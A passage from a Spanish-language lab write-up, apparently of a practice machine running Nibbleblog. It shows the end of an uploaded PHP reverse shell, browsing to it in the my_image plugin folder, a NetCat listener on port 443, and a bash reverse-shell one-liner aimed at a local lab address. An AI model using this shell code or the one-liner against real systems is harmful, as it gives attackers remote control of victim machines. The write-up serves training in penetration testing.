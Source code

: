 	        {
	          chdir(substr($c,3,-1));
	        }
	        else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit')
	        {
	          break;
	        }
	        else
	        {
	          $out=WrisYTZ(substr($c,0,-1));
	          if($out===false)
	          {
	            @socket_write($s,$nofuncs);
	            break;
	          }
	        }
	        @socket_write($s,$out,strlen($out));
	      }
	      @socket_close($s);
	    }
		
  ![image](https://github.com/user-attachments/assets/4f129332-36d6-4d75-a175-7dc466f227c3)

Ahora nos dirigimos a la dirección http://172.17.0.2/nibbleblog/content:

  ![image](https://github.com/user-attachments/assets/34d30dbf-6e55-490d-8038-cd5786bafece)

Nos vamos al subdirectorio **private**.

  ![image](https://github.com/user-attachments/assets/4a65356a-987b-4611-93e0-6a39cd0c8f7d)

Luego hacemos clic en **plugins**.

  ![image](https://github.com/user-attachments/assets/59df7e3e-c562-49e0-bf77-13c0a5d4cef6)

Seleccionamos el subdirectorio del plugin que hemos utilizado (**my_image**).

  ![image](https://github.com/user-attachments/assets/dccb4868-c186-40a7-bed6-46549fc43a37)

Aquí se encuentra el archivo que hemos subido; el cual al no haberle asignado un nombre a la hora de subirlo al servidor, se le ha atribuido el nombre image al fichero por defecto.
	
Antes de ejecutar el archivo, escuchamos por NetCat por el puerto 443 para realizar la reverse shell.

  ![image](https://github.com/user-attachments/assets/0ee37657-df74-46f3-8a69-c291639bfc2b)

  ![image](https://github.com/user-attachments/assets/9f301d45-4498-42e4-a289-3b3d16b2a6b7)

Estamos dentro de la máquina, pero dado que la sesión no dura mucho y en pocos minutos se cierra la conexión a la máquina víctima, realizamos una reverse shell dentro de la conexión usando esta [página web](https://www.revshells.com/) para el código.

**bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"**
